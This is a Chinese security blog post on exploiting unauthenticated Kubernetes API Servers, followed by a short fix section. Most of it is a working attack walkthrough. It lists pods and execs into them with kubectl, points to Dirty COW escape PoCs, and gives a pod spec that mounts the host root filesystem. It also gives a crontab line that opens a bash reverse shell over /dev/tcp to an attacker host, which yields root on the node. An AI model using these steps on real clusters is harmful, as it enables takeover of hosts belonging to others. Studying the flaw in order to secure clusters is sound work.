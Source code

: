 title: Kubernetes Api Server 未授权访问漏洞
top_img: https://i.loli.net/2018/12/06/5c08bd29e44de.png
tags: [漏洞]
date: 2018-12-05
----

# 0x00 漏洞原因

Kubernetes 的服务在正常启动后会开启两个端口：

1. Localhost Port （默认8080）
2. Secure Port （默认6443）

这两个端口都是提供 Api Server 服务的，一个可以直接通过 Web 访问，另一个可以通过 kubectl 客户端进行调用。

![Web 页面](https://i.loli.net/2018/12/05/5c07dec609ff5.png)

正常情况下 Api Server 是有权限控制的，分三种：

1. Authentication
2. Authorization
3. AdmissionControl

如果运维人员没有合理的配置验证和权限，那么攻击者就可以通过这两个接口去获取容器的权限，甚至通过创建自定义的容器去获取宿主机的权限。

# 0x01 漏洞利用

利用方式按严重程度来说分两种，一种是直接通过利用 kubectl 客户端调用 Secure Port 接口去控制已经创建好的容器。另外一种利用方法就是通过创建一个自定义的容器将系统根目录的文件挂在到/mnt目录，通过修改/mnt/etc/crontab 来影响宿主机的 crontab，获取一个反弹 Shell 拿到宿主机的权限。先说第一种方式。


首先，通过下面命令，去发现已经存在的容器

```
kubectl -s ip:port  get pods
```

![发现的容器](https://i.loli.net/2018/12/05/5c07e27b68f05.png)

然后直接连接这个容器获取 Shell。


```
kubectl -s ip:port  --namespace=default exec -it dockername bash
```
![获取容器权限](https://i.loli.net/2018/12/06/5c07f8c667de8.png)

这样就达到了控制容器的目的，但是容器的权限本身是不稳定的，如果宿主机本身的内核有问题的话，可以利用脏牛漏洞进行提权，获取宿主机的权限。具体可以参考：

[PoC for Dirty COW (CVE-2016-5195)](https://github.com/scumjr/dirtycow-vdso)
[DDirtycow-docker-vdso](https://github.com/gebl/dirtycow-docker-vdso)

第二种方式就比较厉害了，利用成功后造成的危害也最大。

首先我们根据官方的规范新建一个标准文件 `myapp.yaml` ,当然也可以使用 json 格式的。


```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```
其中的 image 可以更换，最好使用基础镜像。

然后我们可以通过两种方式提交我们创建容器的请求，一种是通过他的 Web 页面（也就是默认的8080端口）

![Web 端方式提交](https://i.loli.net/2018/12/05/5c07e697f2044.png)

另外我们也可以通过他的另外的接口，通过 kubectl 客户端进行任务的提交。


```
kubectl -s  ip:port create -f yourfile
```

这里如果出现`Error from server (NotFound): the server could not find the requested resource`报错，可能是因为你的 kubectl 客户端和 kubernetes 的 server 端版本不相同导致的，一定要确保版本相同。

![版本确认](https://i.loli.net/2018/12/05/5c07edbf2b85e.png)

提交成功后，我们用之前命令获取容器的 bash，然后向容器的 `/mnt/etc/crontab` 写入反弹 shell 的定时任务，因为创建容器时把宿主机的根目录挂载到了容器的/mnt 目录下，所以可以直接影响到宿主机的 crontab。


```
echo -e "* * * * * root bash -i >& /dev/tcp/ip/port 0>&1\n" >> /mnt/etc/crontab
```

接下来就是见证奇迹的时刻，耐心的等待你就能拿到 Shell 了，验证之后可以确认是宿主机的权限，而不是容器的权限

![获取宿主机权限](https://i.loli.net/2018/12/05/5c07e92f66a77.png)

# 0x01 漏洞修复

在使用 kubernetes 的时候我们一定要进行身份的校验，K8S 的 APi 其实有非常严格的认证和授权

![校验认证流程](https://i.loli.net/2018/12/05/5c07ea3d72caa.png)

最简单的是在 Authentication 增加静态的 password，或者 token，可以的话关闭 Web 端口的服务，保持最小化原则，避免安全风险的产生，可以参考 [官方文档](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#static-password-file)



